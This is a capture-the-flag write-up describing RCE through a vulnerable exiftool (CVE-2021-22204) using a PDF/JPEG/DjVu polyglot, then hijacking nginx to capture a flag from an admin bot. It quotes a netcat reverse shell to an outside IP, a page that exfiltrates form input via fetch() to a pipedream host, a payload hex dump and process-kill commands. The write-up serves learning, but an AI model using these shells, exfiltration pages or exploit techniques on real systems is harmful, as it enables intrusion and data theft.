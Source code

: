 # Ruthless Monster

**Category**: web, misc \
**Solves**: 13 \
**Points**: 333 \
**Author**: geolado

Please, help me! The bad guys are using this server to send secret evil files. Could you intercept one of these files to me?

> PS: The servers are rebooted every N minutes \
> PS2: The bad guys send the file every 15 seconds.

Files: [ruthless_monster.tar.gz](ruthless_monster.tar.gz) \
Server: https://ruthless.monster

## Overview

There are only two files in the zip: a `Dockerfile` and `html/exif/index.php`.

The `/exif` page lets you upload a PDF, checks that the file starts with `%PDF-`, then runs:

```php
echo shell_exec('timeout 10s exiftool ' . escapeshellarg($target_file));
```

The `Dockerfile` is very short:

```dockerfile
FROM privatebin/nginx-fpm-alpine

COPY html /var/www

USER root

RUN chown root:root -R /var/www
RUN chown root:root -R /srv/
RUN chmod 755 -R /srv/
RUN chmod 755 -R /var/www
RUN chmod 777 -R /srv/data/

WORKDIR /root
RUN apk add perl make
RUN wget https://exiftool.org/Image-ExifTool-12.23.tar.gz && tar -xzf Image-ExifTool-12.23.tar.gz && rm Image-ExifTool-12.23.tar.gz &&\
cd Image-ExifTool-12.23 && perl Makefile.PL && make test && make install && mkdir /uploads && chmod 777 /uploads

WORKDIR /var/www
USER 65534:82
```

I remembered seeing a recent [CVE](https://hackerone.com/reports/1154542) on
exiftool that led to RCE, and this challenge used version 12.23, which is
vulnerable.

So the goal of the challenge is:
1. Get RCE through exiftool
2. Intercept the flag which gets posted to the PrivateBin every 15 seconds

## Solution

Solved with @jerieeee, who did most of the work

### Part 1: RCE through exiftool

- I used this [public PoC](https://github.com/convisoappsec/CVE-2021-22204-exiftool)
- Ran `python3 exploit.py`
- Prepended `%PDF-` to the file
- Ran `exiftool image.pdf`, and it gave me a reverse shell.

---

Of course we also had to spend around 3 hours trying a bunch of stupid stuff and reading
through the exiftool's source code (perl 🤢) before we got RCE to work.

First of all, the vulnerability is only in the DjVu module:

```perl
# convert C escape sequences (allowed in quoted text)
$tok = eval qq{"$tok"};
```

So we have to trick `exiftool` into loading the DjVu module even though the
file must start with `%PDF-`.

At first this seemed impossible, but it turns out exiftool has a special case
for `JPEG` files, which can be abused to make exiftool parse magic bytes even
when they don't appear at the start of the file.

```perl
# last ditch effort to scan past unknown header for JPEG/TIFF
next unless $buff =~ /(\xff\xd8\xff|MM\0\x2a|II\x2a\0)/g;
$type = ($1 eq "\xff\xd8\xff") ? 'JPEG' : 'TIFF';
my $skip = pos($buff) - length($1);
$dirInfo{Base} = $pos + $skip;
$raf->Seek($pos + $skip, 0) or $seekErr = 1, last;
$self->Warn("Processing $type-like data after unknown $skip-byte header");
$unkHeader = 1 unless $$self{DOC_NUM};
```

So in the end our payload looked like this:

```xxd
00000000: 2550 4446 2dff d8ff e000 104a 4649 4600  %PDF-......JFIF.
00000010: 0101 0100 4800 4800 00ff e101 c045 7869  ....H.H......Exi
00000020: 6600 004d 4d00 2a00 0000 0800 0501 1a00  f..MM.*.........
00000030: 0500 0000 0100 0000 4a01 1b00 0500 0000  ........J.......
00000040: 0100 0000 5201 2800 0300 0000 0100 0200  ....R.(.........
00000050: 0002 1300 0300 0000 0100 0100 00c5 1b00  ................
00000060: 0200 0001 5e00 0000 5a00 0000 0000 0000  ....^...Z.......
00000070: 4800 0000 0100 0000 4800 0000 0141 5426  H.......H....AT&
00000080: 5446 4f52 4d00 0001 5144 4a56 5549 4e46  TFORM...QDJVUINF
00000090: 4f00 0000 0a00 0100 0118 002c 0116 0142  O..........,...B
000000a0: 476a 7000 0000 0041 4e54 7a00 0001 2bff  Gjp....ANTz...+.
...
```

You can see that it starts with `%PDF-` but also has a `JFIF` header, and then
has `AT&TFORM` a little further down, which are the AIFF magic bytes. The AIFF
module will then load the DjVu module.

### Part 2: Intercepting the flag

After popping a reverse shell on the remote server, it was 4 AM on Sunday so
I went to bed and jerieeee did the rest of the challenge, so I'll try to
explain how she solved it.

First of all, we're logged in as `nobody`:

```
/var/www/exif $ id
uid=65534(nobody) gid=82(www-data)
```

We can also see that many of the processes are running as `nobody`,
specifically `nginx` and `php`.

```
PID   USER     TIME  COMMAND
    1 nobody    0:00 s6-svscan -t0 /var/run/s6/services
   36 nobody    0:00 s6-supervise nginx
   37 nobody    0:00 s6-supervise php-fpm8
   38 nobody    0:00 s6-supervise s6-fdholderd
   40 nobody    0:00 {php-fpm8} php-fpm: master process (/etc/php8/php-fpm.conf)
   51 nobody    0:00 {php-fpm8} php-fpm: pool www
   52 nobody    0:00 {php-fpm8} php-fpm: pool www
  170 nobody    0:00 [exiftool]
  173 nobody    0:00 sh -c rm /tmp/.xff;mkfifo /tmp/.ffx;cat /tmp/.ffx|/bin/sh -i 2>&1|nc 207.154.208.77 1234 >/tmp/.ffx   <-- Looks like another team's reverse shell lol
  176 nobody    0:00 cat /tmp/.ffx
  177 nobody    0:00 /bin/sh -i
  178 nobody    0:00 nc 207.154.208.77 1234
  184 nobody    0:00 /bin/sh -i
  187 nobody    0:00 {php-fpm8} php-fpm: pool www
  200 nobody    0:00 nginx: master process /usr/sbin/nginx
  201 nobody    0:00 nginx: worker process
  202 nobody    0:00 nginx: worker process
  220 nobody    0:00 ps aux
```

Since PrivateBin is supposedly a zero-knowledge pastebin, it would be difficult
to directly hijack the service and decrypt the pastes.

However, we can do this:
1. Kill all nginx processes
2. Spawn our own nginx process that hosts a malicious webpage that exfiltrates the flag to us
3. Wait for the admin bot to send the flag on our page

Here's the nginx conf that was used (luckily the port is 8080 so we have
permission to bind it):

```nginx
worker_processes 1;
worker_rlimit_nofile 8192;
error_log /dev/null warn;
events {
  worker_connections 8000;
}
pid /run/nginx.pid;
daemon off;
timer_resolution 500ms;
http {
    default_type  application/octet-stream;
    charset_types text/css text/plain text/vnd.wap.wml application/javascript application/json application/rss+xml application/xml;
    server_tokens off;
    charset utf-8;
    keepalive_timeout 20s;
    sendfile        on;
    access_log /dev/null;
    tcp_nopush      on;
    server {
            listen 8080 default_server;
            listen [::]:8080 default_server;
            root /tmp;
            index index.html;
    }
}
```

Here's `index.html`:

```html
<html>
<body>
<textarea id="message" name="message" cols="80" rows="25" class="form-control" spellcheck="false"></textarea>
<button id="sendbutton" type="button" class="btn btn-primary">
<span class="glyphicon glyphicon-upload" aria-hidden="true"></span> Send</button>
<script type="text/javascript">
    document.querySelector("#sendbutton").onclick = ()=>fetch("https://da08338acc23cd10f7229bd5e84ba970.m.pipedream.net/"+document.querySelector("#message").value)
</script>
</body>
</html>
```

We can put these files in `/tmp` and run:
```
kill -9 <pid of all nginx processes> && nginx -c /tmp/conf
```

Even though there are shields respawning nginx processes, this one will be
faster than whatever monitor resolution they have. So eventually this server
will replace the legit server (the respawned processes will be get a
port-already-in-use error and die)

Then we just wait for the admin bot to send us the flag:

```
CTF-BR{Pl3453_d0nt_t3ll_m3_y0u_burn3d_4_0day_0n_th1s}
```
